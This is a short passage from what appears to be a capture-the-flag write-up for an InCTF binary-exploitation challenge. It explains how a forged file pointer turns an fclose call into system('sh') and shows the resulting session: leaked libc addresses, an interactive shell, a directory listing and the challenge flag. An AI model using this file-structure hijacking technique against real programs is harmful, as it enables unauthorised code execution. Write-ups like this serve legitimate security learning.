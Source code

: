 Look at that! In practice, `fclose(fp) => fclose(0x804b300) => system(0x804b300) => system("sh")`. Let's watch the full exploit
in action.

```
[+] Libc:   0xf75ff000
[+] system: 0xf7639da0
[*] Switching to interactive mode
$ whoami
jumpingjacks
$ ls
flag
jumping_jacks
libc.so.6
start_chall.sh
$ cat flag
inctf{fil3_p0in7er_m4g1c_1s_fun}
```




